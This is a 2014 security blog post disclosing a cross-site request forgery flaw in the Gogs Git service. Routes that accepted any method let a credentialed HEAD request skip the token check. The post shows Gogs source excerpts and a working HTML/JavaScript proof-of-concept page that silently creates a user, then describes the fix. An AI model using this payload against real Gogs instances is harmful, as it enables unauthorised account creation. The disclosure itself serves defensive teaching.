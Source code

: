 ```yaml
---
date: 2014-06-30 04:15:48 GMT
slug: csrf-in-gogs-via-head
tags: Go,csrf
title: CSRF in Gogs via HEAD
author: Tom Steele
type: text
---
```


I'm a big fan of [Go](http://golang.org/), so I'm always on the look out for emerging projects within the community. One such project is [Gogs](http://gogs.io/), an open source self-hosted Git service. This is a pretty ambitious effort, and  definitely a project to watch. While looking over some of the code I identified a [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery) ("CSRF") vulnerability that presented itself in a not so common manner.

CSRF is a technique that exploits a server's inherit trust in the user's browser. In practice, an attacker will host a malicious site and submit requests on behalf of the user. There are [many techniques](https://community.rapid7.com/community/metasploit/blog/2014/04/15/exploiting-csrf-without-javascript) to do this, far too many to discuss here, but the results can be [devastating](http://disconnected.io/2014/03/18/how-i-hacked-your-router/).

Preventing CSRF is fairly straight forward, one common way is to use a double-submit token. Where a random value is stored in the user's session or a separate cookie, and when a request to change a resource is submitted, it is compared to a form value or header. This is the method used by Gogs. Code for token generation and extraction is [here](https://github.com/gogits/gogs/blob/99713e1180ad149faf6442bba311fec6e501aa00/modules/middleware/context.go#L245-L270). And we can see [here](https://github.com/gogits/gogs/blob/e323604d781268a39febced13a2fb6caae2d126c/modules/middleware/auth.go#L37-L40) that all POST requests must have a valid token, or a 403 is returned.

This is valid because applications should not change state via the GET method, and other methods, including DELETE, PUT, PATCH, etc. will be "preflighted" using the OPTIONS method to determine if the request if safe to send. A great resource for the wonder that is CORS rules is available [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS). As an aside, beware of only protecting POST routes, because [sometimes](http://blog.nodesecurity.io/post/60555138201/bypass-connect-csrf-protection-by-abusing) it's not enough. OK, now that we're all experts, on with the vulnerability.

Gogs uses [Martini](https://github.com/go-martini/martini), which supports Sinatra like routing. We can see routes for managing users below.

~~~~~go
// Taken from https://github.com/gogits/gogs/blob/45462662e9bdb001f1cf3d4ca0e4d679757c7642/web.go

m.Group("/admin/users", func(r martini.Router) {
    r.Any("/new", bindIgnErr(auth.RegisterForm{}), admin.NewUser)
    r.Any("/:userid", bindIgnErr(auth.AdminEditUserForm{}), admin.EditUser)
    r.Any("/:userid/delete", admin.DeleteUser)
}, adminReq)
~~~~~

We see that `r` is the router variable and is using the `Any` method to setup routing. `Any` works how you probably expect, it accepts any method. Let's focus on the `"/new"` route, which is used to create a new user.

~~~~~go
// Taken from https://github.com/gogits/gogs/blob/d0e6a4c25acc3414f6d0f93cc50e6dcb41111c19/routers/admin/user.go

func NewUser(ctx *middleware.Context, form auth.RegisterForm) {
    ctx.Data["Title"] = "New Account"
    ctx.Data["PageIsUsers"] = true

    if ctx.Req.Method == "GET" {
        ctx.HTML(200, "admin/users/new")
        return
    }

    if form.Password != form.RetypePasswd {
        ctx.Data["HasError"] = true
        ctx.Data["Err_Password"] = true
        ctx.Data["Err_RetypePasswd"] = true
        ctx.Data["ErrorMsg"] = "Password and re-type password are not same"
        auth.AssignForm(form, ctx.Data)
    }

    if ctx.HasError() {
        ctx.HTML(200, "admin/users/new")
        return
    }

    u := &models.User{
        Name:     form.UserName,
        Email:    form.Email,
        Passwd:   form.Password,
        IsActive: true,
    }

    var err error
    if u, err = models.RegisterUser(u); err != nil {
        switch err {
        case models.ErrUserAlreadyExist:
            ctx.RenderWithErr("Username has been already taken", "admin/users/new", &form)
        case models.ErrEmailAlreadyUsed:
            ctx.RenderWithErr("E-mail address has been already used", "admin/users/new", &form)
        case models.ErrUserNameIllegal:
            ctx.RenderWithErr(models.ErrRepoNameIllegal.Error(), "admin/users/new", &form)
        default:
            ctx.Handle(200, "admin.user.NewUser", err)
        }
        return
    }

    log.Trace("%s User created by admin(%s): %s", ctx.Req.RequestURI,
        ctx.User.LowerName, strings.ToLower(form.UserName))

    ctx.Redirect("/admin/users")
}
~~~~~

We see that if the method is GET, then it returns and renders the template containing a form to create a new user, and if not, it creates the user. We saw earlier that POST's are protected, and other methods will be preflighted, but if you're following closely, and familiar with your CORS rules, you'll note that we didn't mention the HEAD method, which is not preflighted and does not require a token. Combine that with the behavior of the form parsing library, which treats query strings the same a payload and you have yourself CSRF.

An attacker can host the following to create a new user.

~~~~~html
<html>
    <head>
    <script>
      var http = new XMLHttpRequest();
      http.open('HEAD', 'http://your.git.computer/admin/users/new?username=badguy&email=badguy@evil.com&passwd=foobar&retypepasswd=foobar');
      http.withCredentials = true;
      http.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      http.send();
    </script>
    </head>
    <body>
Hi
    </body>
</html>
~~~~~

The Gogs' development team was extremely responsive and fixed this within a day. To do this, they setup explicit routes and handlers for GET and POST methods, and removed all use of `ANY`. Not being explicit in what you're allowing from a user is the root of many vulnerabilities, and that is the lesson here, where possible only support what you're expecting and strictly validate all input.

